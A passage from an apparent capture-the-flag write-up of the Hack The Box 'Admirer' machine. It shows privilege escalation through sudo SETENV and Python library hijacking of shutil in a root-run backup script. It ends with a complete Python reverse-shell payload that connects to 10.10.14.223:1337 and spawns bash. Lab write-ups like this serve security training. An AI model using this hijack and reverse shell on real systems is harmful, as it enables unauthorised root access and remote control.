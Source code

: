 ![Desktop View]({{ "/assets/img/admirer/HTB-Images-Admirer-flag_user.png" | relative_url }})

## **<span style='color:#c0392b'>[4] Privilege Escalation - Gain higher-level permissions</span>**
### Sudo permissions
***
User waldo can run following command without root password: (ALL) SETENV: /opt/scripts/admin_tasks.sh

![Desktop View]({{ "/assets/img/admirer/HTB-Images-Admirer-sudo_permission.png" | relative_url }})

### Python library Hijacking
***
linpeas scan reveal interesting script named `backup.py`

```
-rwxr----- 1 root admins 198 Dec  2  2019 /opt/scripts/backup.py
```

This script contain `shutil module` and we can hijacking this.

He offers a number of high-level operations on files and collections of files. In particular, functions are provided which support file copying and removal.

![Desktop View]({{ "/assets/img/admirer/HTB-Images-Admirer-backup_script.png" | relative_url }})

References about this exploit:
* <https://docs.python.org/2/library/shutil.html>
* <https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7>
* <https://bic-berkeley.github.io/psych-214-fall-2016/using_pythonpath.html>
* <https://rastating.github.io/privilege-escalation-via-python-library-hijacking/>

We check execution path of shutil.py library:

![Desktop View]({{ "/assets/img/admirer/HTB-Images-Admirer-check_path.png" | relative_url }})

![Desktop View]({{ "/assets/img/admirer/HTB-Images-Admirer-check_path2.png" | relative_url }})

### Payload Injection in malicious library
***
Creation of malicious library shutil.py in /tmp/privuser45:

```
import socket
import pty
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.223",1337))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
